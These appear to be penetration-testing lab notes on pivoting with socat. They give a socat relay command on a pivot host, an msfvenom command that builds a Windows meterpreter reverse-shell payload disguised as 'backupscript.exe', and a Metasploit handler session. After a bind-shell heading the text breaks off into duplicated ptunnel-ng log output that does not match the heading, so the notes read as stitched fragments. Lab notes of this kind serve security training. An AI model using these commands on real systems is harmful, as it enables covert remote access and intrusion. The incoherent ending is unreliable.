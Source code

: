 [Socat](https://linux.die.net/man/1/socat) is a bidirectional relay tool that can create pipe sockets between `2` independent network channels without needing to use SSH tunneling
 It acts as a redirector that can listen on one host and port and forward that data to another IP address and port

### **Starting Socat Listener on Ubuntu (pivot machine)**

- `ubuntu@Webserver:~**$** socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80`
socat will listen on port 8080 and forward all the traffic to port 80 on our attack host `10.10.14.18`

lets create a payload that will connect to pivot machine.

- `msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129{pivot machine ip} -f exe -o backupscript.exe LPORT=8080`

lets create listener on our attack host so that as soon as socat receives a connection from a target it will redirect all the traffic to our attack host’s listener.

- `sudo msfconsole`

```
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 80
lport => 80
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://0.0.0.0:80
```

## **Socat Redirection with a Bind Shell**

![Untitled](.gitbook/assets/Untitled%201%201.png)


[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Relaying packets from incoming TCP streams.